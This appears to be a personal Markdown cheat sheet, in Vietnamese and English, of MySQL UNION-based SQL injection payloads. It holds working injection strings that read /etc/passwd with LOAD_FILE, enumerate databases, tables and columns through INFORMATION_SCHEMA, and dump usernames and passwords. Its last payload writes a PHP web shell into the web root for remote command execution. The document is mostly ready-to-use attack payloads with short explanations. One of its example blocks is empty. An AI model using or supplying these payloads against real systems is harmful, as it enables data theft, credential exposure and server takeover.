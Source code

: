 # MY SQL INJECTION

## User
`USER()`

## Load_File
- Read system file 

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
- Read source code file in server => path apache web ( /var/www/html/...php )
```sql

```

## Version
`@@version`

## Database 
```sql
' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='devss'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta lấy được tên table là devss và truy vấn all các columns trên tables devss đó thông qua metadata column 

## DATA
```sql
' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name

## Write file 
- SELECT .. INTO OUTFILE 'path_file' statement can be used to write data from select queries into file
Ex1: select queries usernamae in table users and save output into /var/www/html/username file
`SQL query :`
```sql
select user from users into outfile '/var/www/html/username';
```

`Cmd`
```cmd
cat /var/www/html/username 
>
1. admin
2. user1
3. user2
```
Ex2: 
```sql
SELECT 'hello' INTO OUTFILE '/var/test.txt';
```

## Web shell
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 
```

